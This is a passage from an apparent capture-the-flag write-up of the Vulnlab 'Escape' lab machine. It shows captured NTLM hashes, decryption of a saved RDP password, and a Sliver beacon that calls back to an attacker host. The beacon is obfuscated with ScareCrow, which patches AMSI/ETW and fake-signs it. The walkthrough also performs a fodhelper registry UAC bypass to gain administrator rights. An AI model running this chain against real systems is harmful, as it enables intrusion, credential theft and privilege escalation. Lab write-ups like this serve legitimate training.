[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.99.129,54381)
[*] AUTHENTICATE_MESSAGE (ESCAPE\kioskUser0,ESCAPE)
[*] User ESCAPE\kioskUser0 authenticated successfully
[*] kioskUser0::ESCAPE:aaaaaaaaaaaaaaaa:6c761dc70ba65f2f3b1f548b16a9aff5:0101000000000000001321784e60da01089f3e1df65aca5100000000010010006c0070005500670045006f0066006c00030010006c0070005500670045006f0066006c000200100048004a00420058004f00790063006d000400100048004a00420058004f00790063006d0007000800001321784e60da010600040002000000080030003000000000000000000000000020000006ce2680346fb40f84ddb2e7487f085f4c3119733f9f43eeb67d91be58943f2c0a0010000000000000000000000000000000000009001a0063006900660073002f00310030002e0038002e0030002e0032000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.99.129,54381)
[*] Remaining connections []
```

We opened the file on a `Windows` system, loaded the `profile.xml` and checked `C:\Users\Username\AppData\Local\Temp\` for a temporarily created file.

```c
C:\Users\commando\AppData\Local\Temp\Remote Desktop Plus.01084.tmp
```

```c
audiomode:i:0
redirectprinters:i:1
disable wallpaper:i:1
screen mode id:i:1
desktopwidth:i:800
desktopheight:i:600
winposstr:s:0,1,0,0,816,639
redirectdrives:i:0
drivestoredirect:s:
remoteapplicationmode:i:0
gatewayprofileusagemethod:i:
gatewayusagemethod:i:
gatewayhostname:s:
username:s:admin
prompt for credentials:i:0
prompt for credentials on client:i:0
password 51:b:01000000D08C9DDF0115D1118C7A00C04FC297EB0100000038136D3A2CF6FF4A9CB50B7F8EF5FA32000000000200000000001066000000010000200000002E75AF07C9205FA5879FD7F5FE3499AC623FEB7C574F23F8E6B10884218EDFB9000000000E8000000002000020000000DFB4943AB22DF896233E71E9454DCE169A058F42B7965E8ADDB3D81EC036A4DD200000004CCB250EC9F06F47F7F12DF317C282882EAD58E68CB34FC2C47DC353B7642E5C40000000F8495C27AFD482403DD7B2DBAD7D972B3CABB1875B0104ED4411F47F5EB94234FA5E915FCC350FB7B79BA8340916E7A3BD9D9A4E655B339D29B05BDD451936ED
authentication level:i:0
```

## Decrypting the Hash

- [https://github.com/RedAndBlueEraser/rdp-file-password-encryptor](https://github.com/RedAndBlueEraser/rdp-file-password-encryptor)

```c
PS C:\Users\Username\Downloads\rdp-file-password-encryptor-master\rdp-file-password-encryptor-master > .\rdp-file-password-decryptor.ps1 01000000D08C9DDF0115D1118C7A00C04FC297EB0100000038136D3A2CF6FF4A9CB50B7F8EF5FA32000000000200000000001066000000010000200000002E75AF07C9205FA5879FD7F5FE3499AC623FEB7C574F23F8E6B10884218EDFB9000000000E8000000002000020000000DFB4943AB22DF896233E71E9454DCE169A058F42B7965E8ADDB3D81EC036A4DD200000004CCB250EC9F06F47F7F12DF317C282882EAD58E68CB34FC2C47DC353B7642E5C40000000F8495C27AFD482403DD7B2DBAD7D972B3CABB1875B0104ED4411F47F5EB94234FA5E915FCC350FB7B79BA8340916E7A3BD9D9A4E655B339D29B05BDD451936ED Security warning Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning message. Do you want to run C:\Users\commando\Downloads\rdp-file-password-encryptor-master\rdp-file-password-encryptor-master\rdp-file-password-dec ryptor.ps1? [D] Do not run [R] Run once [S] Suspend [?] Help (default is "D"): r
```

| Password |
| ---- |
| Twisting3021 |

We switched the session with `RunAs` and executed our `Sliver Beacons`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/serve]
└─$ sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain infect
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --mtls 10.8.0.2 --os windows --arch amd64 --format shellcode --disable-sgn --save /tmp/ --name lock-https --skip-symbols
```

Then we obfuscated our `shellcode` with `ScareCrow`.

```
┌──(kali㉿kali)-[~/opt/malware_development/ScareCrow]
└─$ ./ScareCrow -I /tmp/lock-https.bin -Loader binary -domain vulnlab.com
 
  _________                           _________                       
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     / 
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/  
        \/     \/     \/            \/        \/                      
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle. 
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2220 milliseconds 
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With lync's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing lync.exe With a Fake Cert
[+] Signed File Created
[+] Binary Compiled
[!] Sha256 hash of lync.exe: c4fef8087d01e7c24a534549fc82286b30cf676558f413d4b2ab1a9a8acf9e58
```

```c
runas -u admin -P Twisting3021 "C:\Users\kioskuser0\Downloads\lync.exe"
```

Alternatively `Sno0w` had to spawn a shell with `RunasCs` executed as assembly through sliver.
Later he had to switch back for the privilege escalation because in his session he got `access denied` on `fodhelper.exe`.

## Pivoting

```c
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```c
C:\Users\admin>whoami /all

USER INFORMATION
----------------

User Name    SID
============ ==============================================
escape\admin S-1-5-21-3698417267-3345840482-3422164602-1001


GROUP INFORMATION
-----------------

Group Name                                                Type             SID          Attributes
========================================================= ================ ============ ==================================================
Everyone                                                  Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\로컬 계정 및 관리자 그룹 구성원 Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                    Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                             Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                  Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                          Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                            Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\로컬 계정                                Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                     Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                          Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                    Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

ERROR: Unable to get user claims information.
```

We checked if `UAC` was enabled on the box.

```c
C:\Users\admin\Downloads>REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## UAC Bypass

We used `fodhelper.exe` to bypass `UAC`.

- [https://github.com/nobodyatall648/UAC_Bypass](https://github.com/nobodyatall648/UAC_Bypass)

We spawned a shell with sliver and executed the following commands.

```c
sliver (lock-https) > use a3726789-d904-4d9a-a198-2f1adaa12752

[*] Active session lock-https (a3726789-d904-4d9a-a198-2f1adaa12752)

sliver (lock-https) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 4528

PS C:\Windows\system32> whoami
whoami
escape\admin
```

```c
PS C:\Users\admin\Downloads> New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "C:\Users\admin\Downloads\lync.exe" -Force
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "C:\Users\admin\Downloads\lync.exe" -Force

    Hive: HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open

Name                           Property                                          
----                           --------                                          
command                        (default) : C:\Users\admin\Downloads\lync.exe
```

```c
PS C:\Users\admin\Downloads> New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force


DelegateExecute : 
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open
PSChildName     : command
PSDrive         : HKCU
PSProvider      : Microsoft.PowerShell.Core\Registry
```

```c
PS C:\Users\admin\Downloads> Start-Process "C:\Windows\System32\fodhelper.exe"
Start-Process "C:\Windows\System32\fodhelper.exe"
```

After a few seconds we got our callback.



We switched sessions and checked our privileges.

```c
sliver (lock-https) > use 1312d08e-ff69-42aa-83c5-1f20e35d0af4

[*] Active session lock-https (1312d08e-ff69-42aa-83c5-1f20e35d0af4)

sliver (lock-https) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3452

PS C:\Users\admin\Downloads>
```

```c
PS C:\Users\admin\Downloads> whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
escape\admin S-1-5-21-3698417267-3345840482-3422164602-1001


GROUP INFORMATION
-----------------

Group Name                                                Type             SID          Attributes                                                     
========================================================= ================ ============ ===============================================================
Everyone                                                  Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\로컬 계정 및 관리자 그룹 구성원 Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                    Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                             Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\INTERACTIVE                                  Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users                          Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization                            Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\로컬 계정                                Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group             
LOCAL                                                     Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NTLM Authentication                          Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level                      Label            S-1-16-12288                                                                


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

```c
PS C:\Users\Administrator\Desktop> dir
dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
-a----          2/3/2024   9:07 AM           2332 Microsoft Edge.lnk             
-a----          2/3/2024   3:48 AM             36 root.txt
```

## root.txt

```c
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
VL{d0<--- SNIP --->c4}
```
